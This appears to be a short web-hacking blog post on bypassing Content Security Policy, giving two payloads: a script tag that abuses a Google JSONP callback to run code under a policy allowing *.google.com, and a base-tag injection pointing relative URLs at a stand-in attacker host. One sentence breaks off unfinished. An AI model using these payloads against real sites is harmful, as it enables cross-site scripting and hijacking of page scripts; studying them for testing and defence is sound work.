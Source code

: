 ```yaml
---
title: Content Security Policy (CSP) Bypass
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```


## Google JSONP API CSP Bypass

If the target server is accepting addresses from Google, use the

~~~
Content-Security-Policy: default-src 'self'; script-src *.google.com
~~~

~~~ html
<html>
    <head>...</head>
    <body>
        <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
    </body>
</html>
~~~


## missing base-uri

~~~ html
<base href="https://attacker.io/">
~~~
